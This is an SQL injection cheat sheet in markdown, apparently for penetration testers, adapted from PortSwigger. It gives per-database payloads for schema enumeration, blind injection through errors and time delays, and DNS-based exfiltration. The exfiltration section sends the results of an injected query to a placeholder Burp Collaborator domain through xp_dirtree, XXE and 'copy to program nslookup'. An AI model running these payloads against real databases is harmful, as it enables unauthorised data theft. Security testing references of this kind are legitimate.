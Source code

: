 # SQLi Cheatsheet

**NOTE: Some of the information here have been taken from:**

- [PortSwigger.net](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [MySQL Docs](https://dev.mysql.com/doc/refman/8.0/en/information-schema.html)

### String Concatenation:
- Oracle 	`'foo'||'bar'`
- Microsoft 	`'foo'+'bar'`
- PostgreSQL 	`'foo'||'bar'`
- MySQL
  - `'foo' 'bar'` [Note the space between the two strings]
  - `CONCAT('foo','bar')`
  - `CONCAT(col1,col2...)`

### Substring
**Remember: Index starts from 1**
- Oracle `SUBSTR('foobar', 4, 2)`
- Microsoft	`SUBSTRING('foobar', 4, 2)`
- PostgreSQL `SUBSTRING('foobar', 4, 2)`
- MySQL	`SUBSTRING('foobar', 4, 2)`

### Comment
- Oracle 	`--comment`
- Microsoft
  - `--comment`
  - `/*comment*/`
- PostgreSQL
  - `--comment`
  - `/*comment*/`
- MySQL
  - `#comment`
  - `-- comment` *[Note the space after the double dash]*
  - `/*comment*/`

### Database version
- Oracle
  - `SELECT banner FROM v$version`
  - `SELECT version FROM `v$instance
- Microsoft	`SELECT @@version`
- PostgreSQL `SELECT version()`
- MySQL	`SELECT @@version`

### Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

- Oracle
  - `SELECT * FROM all_tables`
  - `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
- Microsoft
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- PostgreSQL
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- MySQL
**Information:**

    - '**information_schema**' is the database that contains all information about all the database, table, column, etc names.*

    - *'**information_schema.tables**' table contain useful columns that show which table belongs to which database (and vice-versa):*
    
        - table_schema
        (database name)
        - table_name
        - table_rows
        (number of rows of table)
    - *'**information_schema.columns**' contain useful columns that show which column belongs to which table (and vice-versa)*:

      - table_schema
      (database name)
      - table_name
      - column_name

  **Queries:**

  - `SELECT * FROM information_schema.tables`
  - SELECT * FROM `information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

### Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

- Oracle `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual`
- Microsoft `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
- PostgreSQL `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END`
- MySQL `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') `

### Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

- Oracle -	*Does not support batched queries.*
- Microsoft `QUERY-1-HERE; QUERY-2-HERE`
- PostgreSQL 	`QUERY-1-HERE; QUERY-2-HERE`
- MySQL - *Does not support batched queries.*

### Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

- Oracle 	`dbms_pipe.receive_message(('a'),10)`
- Microsoft `WAITFOR DELAY '0:0:10'`
- PostgreSQL `SELECT pg_sleep(10)`
- MySQL	`SELECT sleep(10)`

### Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

- Oracle `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
- Microsoft `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
- PostgreSQL `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
- MySQL	`SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`

### DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred. 

- **Oracle**
 	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
`SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`

  The following technique works on fully patched Oracle installations, but requires elevated privileges:
  `SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')`
- **Microsoft**
  `exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'`
- **PostgreSQL**
  `copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'`
- **MySQL**
  *The following techniques work on Windows only:*
    - `LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')`
    - `SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`

### DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data. 

- **Oracle**
` SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`

- **Microsoft**
`declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')`

- **PostgreSQL**
  ```
  create OR replace function f() returns void as $$
  declare c text;
  declare p text;
  begin
  SELECT into p (SELECT YOUR-QUERY-HERE);
  c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
  execute c;
  END;
  $$ language plpgsql security definer;
  SELECT f();
  ```

- **MySQL**
  *The following technique works on Windows only:*
  `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`
